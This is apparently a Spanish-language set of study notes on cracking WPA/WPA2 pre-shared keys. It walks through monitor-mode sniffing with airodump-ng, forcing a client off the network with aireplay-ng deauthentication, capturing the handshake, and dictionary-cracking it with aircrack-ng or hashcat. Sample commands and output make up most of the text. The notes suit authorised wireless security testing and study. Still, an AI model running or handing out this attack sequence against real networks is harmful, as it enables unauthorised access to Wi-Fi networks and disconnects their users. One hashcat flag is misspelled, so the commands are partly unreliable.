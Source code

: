 # Cracking de hashes

WPA, WPA2 y WPA3 soportan 2 tipos de autenticaciones: **Pre-shared Keys (PSK)** y **Enterprise**

**WPA** y **WPA2** tienen prácticamente el mismo método de autenticación por lo que todas las técnicas de ambas tecnologías son intercambiables.

**WPA3** tiene similitudes con **WPA** pero usa **Simultaneous Authentication of Equals (SAE)** y no es vulnerable a ataques offline.


# Proceso

#### 1) Ponemos nuestra interface en modo monitor

#### 2) Sniffamos la red con airodump

    sudo airodump-ng <interface>

#### 3) Seleccionamos nuestro AP target

    sudo airodump-ng -c <channel> -w <prefix> --essid <essid> --bssid <bssid> <interface>

Caso de ejemplo:

    kali@kali:~$ sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
    ...
    
    CH  3 ][ Elapsed: 12 s ][ 2020-02-29 13:30 ][
    
     BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    
     34:08:04:09:3D:38  -45  87      107       69    1   3  54e. WPA2 CCMP   PSK  wifu
    
     BSSID              STATION            PWR   Rate    Lost  Packets  Probes
    
     34:08:04:09:3D:38  00:18:4D:1D:A8:1F  -26   54-54      0       31

#### 4) Obtenemos los datos de nuestro target(parte superior) y la MAC de un cliente que lo esté consumiendo (Station de la parte inferior)
#### 5) Desde otra terminal desautenticamos al cliente con aireplay

    sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon

#### 6) Cuando el cliente se reconecte airodump va a poder recolectar el handshake

Si no captura el handshake podemos repetir el paso **5** de las siguientes maneras:

- Moviendonos a una posición más cercana al router
- Algunos routers no soportan la desautenticación directa, por lo que tendremos que probar un broadcast: el mismo comando pero sin la flag -c (y el argumento)
- Si el tipo de conexión es 802.11w está en uso, no soporta desautenticaciones desencriptadas. Tendremos que dejar la recolección hasta que alguien se conecte.

Una vez capturado el handshake lo dejamos unos minutos más para obtener un poco más de info y cerramos airodump

#### 7) Utilizamos aircrack para crackear el handshake

    aircrack-ng -w <dictio> -e <essid> -b <bssid> <.pcap>

#### 8) Confirmamos que la clave sea correcta

    airdecap-ng -b <bssid> -e <essid> -p <passphrase> <.pcap>

Si el resultado muestra que se lograron desencriptar un monto de paquetes del pcap, entonces la pass-phrase es correcta.

### Realizar el crack con hashcat

Necesitamos los "utils" de hashcat

    sudo apt install hashcat-utils
    
#### 1) Convertimos el pcap a hccapx


    /usr/lib/hashcat-utils/cap2hccapx.bin <.pcap> output.hccapx

#### 2) Pasamos el archivo final por hashcat

    hashcat -m 2500 --depreciated-check-disable output.hccapx <dictio>
